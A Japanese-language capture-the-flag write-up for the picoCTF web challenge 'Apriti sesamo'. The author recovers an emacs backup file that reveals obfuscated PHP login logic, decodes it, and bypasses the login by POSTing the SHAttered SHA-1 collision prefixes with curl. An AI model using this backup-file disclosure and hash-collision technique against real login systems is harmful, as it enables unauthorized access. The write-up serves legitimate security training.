

## Apriti sesamo

### Description 

I found a web app that claims to be impossible to hack!
Try it here!

要約すると、ハックしてみて  
Descriptionからは何も情報が得られなかった。 

---

サイトを開いてみる  
下のようなサイトが開き、loginボタンを押してみる。


下のような画面が開く。  
適当に入力したり、開発者ツールを開いても進展なし。



ヒントを見ると、「Rumor has it, the lead developer is a militant emacs user」とあり、emacs特有のファイルなどがないか探してみる。
現在のurlの impossibleLogin.phpに ~ を付けて、開発者ツールを開くと下のコードがコメントアウトされていた。


```php
<?php
 if(isset($_POST[base64_decode("\144\130\x4e\154\x63\155\x35\x68\142\127\125\x3d")])&& isset($_POST[base64_decode("\143\x48\x64\x6b")])){$yuf85e0677=$_POST[base64_decode("\144\x58\x4e\154\x63\x6d\65\150\x62\127\x55\75")];$rs35c246d5=$_POST[base64_decode("\143\x48\144\153")];if($yuf85e0677==$rs35c246d5){echo base64_decode("\x50\x47\112\x79\x4c\172\x35\x47\x59\127\154\163\132\127\x51\x68\111\x45\x35\166\x49\x47\132\163\131\127\x63\x67\x5a\155\71\171\111\x48\x6c\166\x64\x51\x3d\x3d");}else{if(sha1($yuf85e0677)===sha1($rs35c246d5)){echo file_get_contents(base64_decode("\x4c\151\64\166\x5a\x6d\x78\x68\x5a\x79\65\60\145\110\x51\75"));}else{echo base64_decode("\x50\107\112\171\x4c\x7a\65\107\x59\x57\154\x73\x5a\127\x51\x68\x49\105\x35\x76\111\x47\132\x73\131\127\x63\x67\x5a\155\71\x79\x49\110\154\x76\x64\x51\x3d\75");}}}?>
```

8進数エスケープと16進数エスケープが混ぜられて難読化されていた。  
また、ところどころ、抜けている部分があるのを補完しながら、base64でデコードしてみると、下の様になった。

```php
<?php
 if(isset($_POST["username"])&& isset($_POST["pwd"]))
 {
    $yuf85e0677=$_POST["username"];
    $rs35c246d5=$_POST["pwd"];
    if($yuf85e0677==$rs35c246d5)
    {
        echo '<br/>Failed! No flag for you';
    }else
    {
        if(sha1($yuf85e0677)===sha1($rs35c246d5))
        {
            echo file_get_contents("../flag.txt");
        }else
        {
            echo base64_decode("<br/>Failed! No flag for you");
        }
    }
}
?>
```

ここからusernameとpasswordが違うもので、かつ、sha1をしたときに、同じ値になるような組を入力できれば、flagをゲットできることがわかる。  
こちらを参考にしました。

[巷で話題のGoogleのSHA-1衝突やってみた](http://73spica.tech/blog/sha1-collision/)

下のコード２つを実行して、それぞれバイナリファイルを生成する

```
curl https://shattered.io/static/shattered-1.pdf | head -c 320 > 1.bin
```
```
curl https://shattered.io/static/shattered-2.pdf | head -c 320 > 2.bin
```
 
２つのバイナリファイルが取得できたら、下のcurlコマンドを実行する

```
curl --data-urlencode username@1.bin --data-urlencode pwd@2.bin http://verbal-sleep.picoctf.net:63073/impossibleLogin.php 
```

flagがゲットできた